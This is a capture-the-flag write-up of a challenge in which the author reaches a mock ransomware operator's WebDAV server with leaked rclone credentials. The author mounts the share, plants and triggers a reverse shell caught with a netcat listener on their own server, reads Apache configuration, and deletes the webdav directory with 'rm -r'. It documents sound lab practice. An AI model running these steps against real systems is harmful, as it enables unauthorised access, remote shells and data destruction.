 # Operation Eradication


## Description

```
Oh no! A ransomware operator encrypted an environment, and exfiltrated data that they will soon use for blackmail and extortion if they don't receive payment! They stole our data!

Luckily, we found what looks like a configuration file, that seems to have credentials to the actor's storage server... but it doesn't seem to work. Can you get onto their server and delete all the data they stole!?
```

## Writeup

Starting off I downloaded the file and got the following content. <br/>
```yml
type = webdav
url = http://localhost/webdav
vendor = other
user = VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r
pass = HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5
```

After seeing this I took a look at the website. <br/>
![grafik](https://github.com/Aryt3/writeups/assets/110562298/1a522ce5-f441-4b79-921a-52d945c60ac9)

Directory Scan: <br/>
```sh
ffuf -u http://chal.ctf.games:32072/FUZZ -w ../../webhacking/wordlists/directory_scanner/common.txt     

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://chal.ctf.games:32072/FUZZ
 :: Wordlist         : FUZZ: /home/kali/webhacking/wordlists/directory_scanner/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 403, Size: 282, Words: 20, Lines: 10, Duration: 3602ms]
    * FUZZ: .hta

[Status: 403, Size: 282, Words: 20, Lines: 10, Duration: 4507ms]
    * FUZZ: .htaccess

[Status: 403, Size: 282, Words: 20, Lines: 10, Duration: 5000ms]
    * FUZZ: .htpasswd

[Status: 200, Size: 740, Words: 58, Lines: 17, Duration: 187ms]
    * FUZZ: index.php

[Status: 403, Size: 282, Words: 20, Lines: 10, Duration: 147ms]
    * FUZZ: server-status

[Status: 401, Size: 464, Words: 42, Lines: 15, Duration: 151ms]
    * FUZZ: webdav

:: Progress: [4613/4613] :: Job [1/1] :: 268 req/sec :: Duration: [0:00:21] :: Errors: 0 ::
```

Seems like I found `/webdav`. <br/>
![grafik](https://github.com/Aryt3/writeups/assets/110562298/a8d11610-fff5-40f2-8995-a02c70067bc5)

Trying to access it I got a login prompt which was not accessable with default credentials. <br/>
After some researching I found that the configuration file I got in the beginning matches a Tool to connect to webdav. <br/>

Knowing that I tried to import the configuration file and change it up a bit. <br/>
```yml
[yeet]
type = webdav
url = http://chal.ctf.games:32072
vendor = other
user = VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r
pass = HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5
```

Using this I executed the command: <br/>
```sh
kali@kali rclone ls yeet:/webdav/             
  3510400 HumanResources/EmployeeHandbook.pdf
  3570194 ProductDevelopment/2023/ProductRoadmap.pdf
  1745724 ProductDevelopment/2022/ProductRoadmap.pdf
  3279252 ProductDevelopment/Designs/NewProductDesign.pdf
  3210830 ProductDevelopment/Designs/UpdatedProductDesign.pdf
--------------------------------------------------------------
```

Seems like this worked and I can connect to the machine with this tool. <br/>

Using `rclone` we can than mount the whole /webdav/ directory into one of our own. <br/>
```sh
kali@kali rclone mount yeet:/webdav/ ./mounted_dir

kali@kali ls mounted_dir/
Accounting  HumanResources  Legal      Operations          Sales   remover.sh
Finance     IT              Marketing  ProductDevelopment  del.sh  rev_shell.php
```

Now I copied a reverse shell into the mounted directory and executed it with `cat rev_shell.php`. (Don't ask me) <br/>
This opens a reverse shell on my Vserver on its public IP. <br/>
```sh
nc -lnvp 1234
listening on [any] 1234 ...


connect to [REDACTED] from (UNKNOWN) [34.123.224.68] 32070
Linux operation-eradication-266f1c7f2786d51f-8498b5d548-zbmvq 5.15.109+ #1 SMP Fri Jun 9 10:57:30 UTC 2023 x86_64 GNU/Linux
 17:22:35 up  4:18,  0 users,  load average: 0.44, 0.25, 0.20
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ export TERM=xterm
```

Seems like this gave me a reverse shell so I checked the apache configuration: <br/>
```sh
$ cat /etc/apache2/sites-available/*


-----------------------------
DocumentRoot /var/www/html
-----------------------------
```

Knowing the `DocumentRoot` we can take a look at this directory. <br/>
```sh
$ ls -R /var/www/
/var/www/:
html

/var/www/html:
index.php
webdav
```

Knowing that the challenge is to delete all data in webdav I just removed the whole directory: <br/>
```sh
$ rm -r webdav/ 
```

Now I take a look at the website again where I found the Flag: <br/>
![grafik](https://github.com/Aryt3/writeups/assets/110562298/4a06acb0-4cbb-4cc5-912b-70dcf15a924c)




